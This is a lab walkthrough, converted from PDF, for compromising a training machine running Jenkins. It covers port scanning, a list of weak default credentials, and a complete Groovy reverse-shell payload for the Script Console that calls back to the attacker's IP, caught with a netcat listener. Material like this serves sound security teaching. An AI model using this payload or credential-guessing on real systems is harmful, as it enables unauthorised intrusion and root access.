




# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Pennyworth Write-up Prepared by: 0ne-nine9, ilinor Introduction

## Extracted walkthrough

### Page 1

```
Pennyworth Write-up

Prepared by: 0ne-nine9, ilinor
Introduction

In the cyber security industry, there is a way to identify, define, and catalog publicly disclosed vulnerabilities. 
That type of identification is called a CVE, which stands for Common Vulnerabilities and Exposures.
Post-analysis, each vulnerability is assigned a severity rating, called a CVSS score, ranging from 0 to 10, 
where 0 is considered Informational, and 10 is Critical. These scores are dependent on several factors, some 
of which being the level of CIA Triad compromise (Confidentiality, Integrity, Availability), the level of attack 
complexity, the size of the attack surface, and others.
One of the most well-known and most feared vulnerability types to find on your system is called an 
Arbitrary Remote Command Execution vulnerability.
 
 
In this example, we will be exploring precisely this typology of attack vectors.
 
Enumeration

As always, we will be starting with an nmap scan. The -sC  and -sV  switches will be employed in order to 
force default script usage (albeit intrusive) and advanced version detection for services identified on any of 
the open ports. This will help us get a better overview of the target and understand its' purpose on the 
network.
 
In computer security, arbitrary code execution (ACE) is an attacker's ability to execute 
arbitrary commands or code on a target machine or in a target process. [..] A program 
designed to exploit such a vulnerability is called an arbitrary code execution exploit. 
The ability to trigger arbitrary code execution over a network (primarily via a wide-area 
network such as the Internet) is often called remote code execution (RCE).
```


### Page 2

```
From the output of the scan, we find a singular result of interest. Jetty version 9.4.39.v20210325 is running 
on an open TCP port 8080. Like any other HTTP server, we will need to use our browser to explore this 
service easily. Navigating to the IP address of the target through our URL search bar will yield an error, as 
we will need to specify the port the service is running on. Looking back at the scan, the service is not 
running on port 80, which is the one your browser would be expecting if you input the IP address of the 
target alone. However, if we specify the IP:PORT combination as shown below, we will meet the following 
result.
 
 
http://{target_IP}:8080/
```


### Page 3

```
The HTTP server seems to be running a Jenkins service. A small summary of this service can be found in the 
snippet below. It will give us a general idea of the capabilities of such a service and how it might interact 
with the backend. Any interactions are essential, as they can serve as a gateway to gaining a foothold on the 
host running everything in the backend. If any of them is misconfigured, they could prove to be an easy 
path of exploitation for an attacker.
 
 
The potential approach we can explore against this login screen is to try logging in using commonly used 
weak credential pairs. This relies on the possibility that server administrators might have overlooked 
configuring the Jenkins service securely. Upon searching the web for common weak credential pairs, we get 
the following result:
 
Jenkins is a free and open-source automation server. It helps automate the parts of 
software development related to building, testing, and deploying, facilitating continuous 
integration and delivery. It is a server-based system.
admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1
```


### Page 4

```
Fortunately, we were right. Attempting multiple combinations from the list above, we can successfully log in 
using the credential pair root:password  and are presented with the administrative panel for the Jenkins 
service. Now, it is time to look around.
 
 
Foothold

At the bottom right corner of the page, the current version of the Jenkins service is displayed. This is one of 
the first clues an attacker will check - specifically if the currently installed version has any known CVE's or 
attack methods published on the Internet. Unfortunately, this is not our case. The current version is 
reported as secure. As an alternative, we stumble across two vital pieces of information while searching for 
Jenkins exposures.
 
A handbook including multiple ways of gaining Jenkins RCE's
A repository similar to the above, including links to scripts and tools
 
When stumbling across invaluable resources such as the examples above, it is vital that you save them for 
later in a well-organized bookmark folder for quick access. It is highly encouraged to use well-established 
research in your professional activities, and this situation does not differ from the case.
```


### Page 5

```
In both links provided above the Jenkins Script Console is mentioned, where what is known as Groovy script 
can be written and run arbitrarily. To access it, you need to navigate to the left menu, to Manage Jenkins > 
Script Console , or by visiting the following URL directly from your browser URL search bar:
 
 
 
The objective of our Groovy script implementation as explained in the two documents linked before will be 
to receive a reverse shell connection from the target. Reverse, in this case, meaning the target will initialize 
the connection request back to our attacker VM, with simplicity in implementation and a better chance of 
Firewall evasion being the main two reasons. Attackers who successfully exploit a remote command 
execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine 
and continue their attack.
 
Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the 
reverse shell connection. Specifically, we will make the remote server connect to us by specifying our IP 
address and the port that we will listen on for new connections. Through that listening port, the target will 
end up sending us a connection request, which our host will accept, forming an interactive shell with control 
over the target's backend system. In order to do that, we will need a specially crafted payload, which we can 
find in the following GitHub cheatsheet.
http://{target_IP}:8080/script
```


### Page 6

```
The payload we are looking for is as below. This snippet of text has only the {your_IP} part at the very first 
line which needs to be changed to fit your specific case. In this case, you will need to find out your IP 
address from the deployed VPN connection. After replacing the {your_IP} bit with your IP address, you can 
paste this whole snippet into the Script Console in Jenkins.
 
 
In order to get your IP address for the currently deployed VPN connection, you need to open a new terminal 
tab or window and input the  ip a | grep tun0  command. The output will look as below, and the IP 
address you need to replace in the snippet above is marked in green.
 
 
After finding out your IP address for the tun0 interface and replacing it in the Script Console, you can look at 
what each of the 3 top lines in the code block achieve for a better understanding of the payload.
 
String host="{your_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new 
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());whi
le(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try 
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
`String host="{your_IP}";`         : Specify the IP address for the target to connect back 
to.
`int port=8000;`                   : Specify the port on which the attacker will listen 
on.
`String cmd="/bin/bash";`          : Specify the shell type the attacker expects. *
* Since the target is Linux-based, we are using `/bin/bash`.
If the target was using Windows, it would have been `cmd.exe`.
```




### Page 7

```
The rest of the script will instruct the target to create a cmd  process which will initialize a connection 
request to the provided host  and port  (us, in this case). Our listener script will be running on the specified 
port and catch the connection request from the target, successfully forming a reverse shell between the 
target and attacker hosts. On our side, this will look like a new connection is received and that we can now 
type in the target host's terminal. This will not be visible on the target's side unless they are actively 
monitoring the network activity of their running processes or the outbound connections from their ports.
Before running the command pasted in the Jenkins Script Console, we need to make sure our listener script 
is up and running on the same port as specified in the command above, for int port=8000 . To achieve 
this, we will use a tool called netcat  or nc  for short. Looking at the Wikipedia article for netcat, we can 
learn more about its' use.
 
 
Netcat comes pre-installed with every Linux distribution, and in order to see how to use it, we can input the 
nc -h  command into our terminal window.
 
netcat (often abbreviated to nc) is a computer networking utility for reading from and 
writing to network connections using TCP or UDP. The command is designed to be a 
dependable back-end that can be used directly or easily driven by other programs and 
scripts. At the same time, it is a feature-rich network debugging and investigation tool, 
since it can produce almost any kind of connection its user could need and has several 
built-in capabilities. Its list of features includes port scanning, transferring files, 
and port listening: as with any server, it can be used as a backdoor.
```


### Page 8

```
After a short analysis of the help output, we can open a new terminal tab and type in the following 
command to start a netcat listener on the specified port. This will make our attacker host ready to receive 
connections from the target, the last remaining step before launching the script we placed in the Jenkins 
Script Console.
 
 
l : Listening mode.
v : Verbose mode. Displays status messages in more detail.
n : Numeric-only IP address. No hostname resolution. DNS is not being used.
p : Port. Use to specify a particular port for listening.
```


### Page 9

```
Now that our listener is turned on, we can execute the payload by clicking the Run  button.
 
 
Once the script is run, we can navigate to the terminal where netcat is running and check on the connection 
state. From the output, we understand that a connection has been received to {your_IP}  from 
{target_IP} , and then blank space. We can try to interact with the shell by typing in the whoami  and id  
commands. These commands help verify our permission level on the target system. From the output, we 
can quickly determine that we rest at the highest level of privilege.
```






### Page 10

```
We have command execution. Navigate to the /root  directory on the target and read the flag.
 
 
That is a wrap! Congratulations!
```





---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
